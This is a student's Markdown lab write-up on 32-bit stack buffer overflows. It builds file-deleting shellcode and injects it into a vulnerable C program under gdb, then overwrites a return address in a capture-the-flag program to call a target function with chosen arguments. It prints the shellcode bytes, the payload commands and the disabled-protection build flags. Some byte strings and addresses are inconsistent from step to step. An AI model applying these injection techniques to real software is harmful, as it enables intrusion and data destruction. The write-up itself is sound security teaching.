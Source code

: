 *Name: Dinh Thi Thanh Vy*

*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**

![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**

Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`

Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![alt text](./image/image-13.png)

- We have the shellcode for file_del file as follows:

`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**

![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`

Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**

![alt text](./image/image-15.png)

- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:

`r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")`

![alt text](./image/image-16.png)

--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:

![alt text](./image/image-17.png)

- Change file asm to this:

![alt text](./image/image-20.png)

- Get the shellcode again, we get

`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

`r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")`

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 

`set *0xffffd69c = 0xffffd658`

**The result will be:**

![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)

- Why does the Dummyfile still here? Look back at the assembly code by using command:

`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`

![alt text](./image/image-26.png)

- continue running the program 

![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c

**Source code:**

![alt text](./image/image-30.png)

**Summarizing**

-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:

`p=0x04081211; q=0x44644262`

`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`

= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`

**Run the virtual environment by docker file**

![alt text](./image/image-32.png)

**Debug ctf.c and create ctf.out file:**

`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-32.png)

**Get the address of the myfunc function by this command:**
`objdump -d ctf.out|grep myfunc`

![alt text](./image/image-33.png)

--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-34.png)

--> It's not understand and stop running with the debug `0x61616161 in ??`

--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`

![alt text](./image/image-35.png)

--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`

![alt text](./image/image-36.png)

--> We've done this lab

**Stack frame:**

![alt text](./image/image-29.png)
